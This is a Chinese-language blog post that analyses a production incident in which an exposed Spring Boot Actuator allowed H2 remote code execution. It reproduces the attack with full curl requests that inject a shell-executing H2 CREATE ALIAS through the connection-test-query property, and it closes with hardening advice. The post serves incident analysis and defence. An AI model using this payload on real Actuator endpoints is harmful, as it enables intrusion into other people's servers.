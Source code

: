 ```yaml
---
layout:     post
title:      2023-02-23-SpringBoot Actuator配置不当导致的H2 RCE漏洞
subtitle:   RCE漏洞
date:       2020-07-02
author:     KC
header-img: img/post-bg-debug.png
catalog: true
tags:
    - SpringBoot
    - Actuator
    - RCE漏洞
    - H2 RCE
---
```


> 聊一下由于SpringBoot Actuator配置不当导致的H2 RCE漏洞

### 背景

近期公司生产环境服务器发现了某个SpringBoot服务由于每次获取数据库连接报错导致服务发生了不可用现象,经过一段时间的排查分析发现了该问题与H2 RCE漏洞有关,遂记录下该问题复现的过程以及出现的一些必要条件。


### 漏洞概述
远程代码执行 （RCE） 是一类软件安全缺陷/漏洞。可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

#### 案发现场
![](http://www.kcblog.cn/img/2023-02-23/1.jpg)
项目频繁打印上图所示的报错,导致了该服务触发了Hystrix服务降级,进而导致服务完全不可用。
经过排查发现该项目添加了如下配置

```yaml
management:
  endpoints:
    web:
      exposure:
        include: "*" #暴露所有节点
  endpoint:
    health:
      show-details: ALWAYS  #显示详细信息
```

该配置是SpringBoot Actuator的配置，主要作用是暴露该项目所有的actuator相关的访问端口和访问路径。通过一些特定的端口路径可以直接访问到SpringBoot项目内的各种配置参数和环境变量以及对它们进行修改，这种方式如果使用不当可能会造成信息泄露、H2 RCE漏洞等严重的安全隐患。根据上图中的报错日志基本可以确定是SpringBoot Actuator的配置不当导致了H2 RCE安全漏洞。

#### 问题复现

本地服务器在不更改SpringBoot Actuator配置的情况下部署相同的服务实例,如下图所示
![](http://www.kcblog.cn/img/2023-02-23/2.jpg)
可以看到通过actuator/env端口直接查看到该服务的一些核心配置,如mysql数据库等

###### 发送如下POST请求修改该项目spring.datasource.hikari.connection-test-query的值

```shell
curl --location 'http://192.168.10.60:9095/actuator/env' \
--header 'Content-Type: application/json' \
--data '{
    "name": "spring.datasource.hikari.connection-test-query",
    "value": "CREATE ALIAS EXEC AS '\''String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'\''; CALL EXEC('\''curl 192.168.1.188'\'');"
}'
```

再次刷新actuator/env页面发现spring.datasource.hikari.connection-test-query的值已经被成功修改,这个时候配置并不会立即生效,需要通过刷新接口使配置生效

![](http://www.kcblog.cn/img/2023-02-23/3.jpg)

###### 最后一步，向端点 /actuator/refresh 发送POST请求，使刚才修改的配置生效。

```shell
curl --location --request POST 'http://192.168.10.60:9095/actuator/refresh'
```

接下来随便请求该项目的任意接口执行sql之前都会出现案发现场图中提示的报错，进而导致服务不可用。

#### 原理

> HikariCP中的`connectionTestQuery`配置意义是在从池中给出一个连接之前被执行的query，也就是该属性下配置的query语句。 当攻击者通过Actuator漏洞成功修改了spring.datasource.hikari.connection-test-query属性之后，每次获取数据库连接时都会先执行该属性下配置的sql语句，然后利用SQL语句中的用户自定义函数，进行RCE。
>
> 在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE ALIAS创建一个java函数然后调用它，示例如下:
>
> ```sql
> CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
> CALL GET_SYSTEM_PROPERTY('java.class.path');
> ```
>
> 仿照这个，创建命令执行的java函数可以如下:
>
> ```java
> String shellexec(String cmd) throws java.io.IOException { 
>     java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
>     if (s.hasNext()) {
>         return s.next();
>     } throw new IllegalArgumentException(); 
> }
> ```
>
> 那么RCE所需的SQL语句即:
>
> ```sql
> CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
> CALL EXEC('curl 192.168.1.188');
> ```

万幸的是我们服务器中没有使用到H2数据库，只是会导致每次执行RCE语句时报错，没有造成太大损失。

#### 总结

尽量不要将SpringBoot服务Actuator的所有端口暴露出来，假如真的要用的话要保证该服务对应的端口不要直接暴露在外网环境中，同时可以开启security功能，配置访问权限验证，类似配置如下：

```properties
management.security.enabled=true
security.user.name=xxxxx
security.user.password=xxxxx
```

